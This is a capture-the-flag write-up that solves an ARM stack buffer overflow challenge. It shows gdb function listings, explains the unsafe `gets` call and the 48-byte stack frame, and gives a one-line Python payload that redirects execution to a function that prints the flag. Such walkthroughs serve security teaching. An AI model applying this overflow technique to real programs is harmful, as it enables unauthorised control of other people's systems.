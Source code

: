### Intended solution

This challenge is an ARM binary exploitation challenge.

Analysing the binary we can see the `gets` funtion is used and this can be used to exploit the binary.

Opening this binary in gdb we can see the following functions
```bash
..
..
0x00010470  frame_dummy
0x000104cc  initialize
0x0001053c  lobby
0x000105f8  main
0x00010614  roomA1
0x00010660  roomA5
0x000106ac  roomA12
0x000106f8  roomB3
0x00010744  roomB11
..
..
```

Looking at the `main()` it calls the lobby functions which takes a string input using gets and prints it. So our task is to overflow the stack to overwrite the saved pc in the stack.<br/>
Upon analysis we can see that the stack frame of the function `lobby` is 48 bytes.<br/>
We have 5 similar looking function and we have to find the function which will give us the flag<br/>
Analysing the strings in the functions we can find the string `cat /home/ubuntu/flag` is used as the argument of the system function of `roomB3()`. Therefore this is the required function

So final exploit will be :
```bash
$ python -c 'print 48*"A" + "\xf8\x06\x01\x00"' | ./arm_bof
```

